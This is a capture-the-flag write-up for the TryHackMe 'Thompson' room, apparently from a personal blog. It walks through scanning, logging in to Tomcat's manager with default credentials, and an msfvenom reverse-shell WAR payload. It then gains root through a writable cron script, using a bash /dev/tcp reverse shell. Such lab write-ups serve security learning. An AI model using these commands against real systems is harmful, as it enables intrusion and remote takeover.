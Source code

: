 ```yaml
---
layout: default
---
```


_**Sept 30, 2020**_

[Thompson](https://tryhackme.com/room/bsidesgtthompson) Writeup

## Nmap Scan :

```
kali@kali:~$ nmap -sC -sV 10.10.218.79
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster Scan :

```
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/manager (Status: 302)
```

Checking the `/manager` with the default creds of user : `tomcat` & passwd : `s3cret` we get access.

Since we are logged in, we can create a `.WAR` payload using msfvenom and get a reverse connection.

```
kali@kali:~$ msfvenom -p java/shell_reverse_tcp lhost=10.8.14.157 lport=9991 -f war -o pwn.war
Payload size: 13402 bytes
Final size of war file: 13402 bytes
Saved as: pwn.war
```

## 1st Privilege Escalation :

I noticed that the id.sh is executed by bash every minute, so let's abuse it :

```
*  *    * * *   root    cd /home/jack && bash id.sh
```
```
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat test.txt
tomcat@ubuntu:/home/jack$ d89d*************************a3a
```

## 2nd Privilege Escalation :

```
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.8.14.157/8080 0>&1" > id.sh
```
```
kali@kali:~$ nc -lnvp 8080
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n).

<br>
<br>

[back to main()](../../index.md)

<br>

